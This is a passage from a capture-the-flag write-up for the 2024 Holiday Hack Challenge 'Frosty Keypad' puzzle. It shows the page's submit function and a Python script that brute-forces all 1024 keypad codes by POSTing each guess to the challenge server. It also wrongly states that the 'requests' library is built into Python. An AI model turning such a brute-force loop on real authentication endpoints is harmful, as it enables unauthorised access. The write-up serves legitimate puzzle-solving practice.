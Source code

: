 ### Solving

It isn't feasible to send all combinations manually, as we would have to manually enter (four to the power of five) 1024 combinations. I'm lazy, and I'm not going to sit here manually sending them, so let's code our way to the solution.

First, we'll have to check out how the code is sent to the server for validation. In the javascript code, this is done in the `submitAction` function.

```js
 async function submitAction(answer, callback) {
    const urlParams = new URLSearchParams(window.location.search);
    const id = urlParams.get('id');
    const url = `/submit?id=${id}`;
    const data = { answer: answer }; // Send the answer as a JSON object

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify(data)
        });
        // ...
    }
    // ...
}
```

This code uses the built-in `fetch` function to send a POST request to `/submit?id=[ID HERE]`, with a body of `{"answer: "12345"}`. We can also verify this by going to the Network tab in the DevTools.

{{< figure class="small" src="/img/writeups/holiday-hack-challenge/2024/act1/frosty-keypad/devtools-network.png" title="Request in DevTools" >}}

Now wel'll have to write some code to submit these requests with all possible combinations. My preferred programming language for short scripts like this is Python, but it can just as easily be done using javascript in the browser.

In Python, we can make use of the `requests` library to send http requests, and `itertools` for generating all possible answers. They are both built-in to python, so no need to install anything. Using these libraries, I quickly sketched up the following script. `[YOUR ID HERE]` should be replace with your id. You can copy it from the Network tab in the DevTools.

```py
from itertools import product
import requests

keys = ["2", "7", "6", "8"]

for answer in product(keys, repeat=5):
    answer = "".join(answer)

    res = requests.post(
        "https://hhc24-frostykeypad.holidayhackchallenge.com/submit?id=[YOUR ID HERE]",
        json={"answer": answer},
    )

    print(answer, res.status_code, res.json())

    # If the answer is accepted, we likely won't get a 400 response.
    if res.status_code != 400:
        break
```
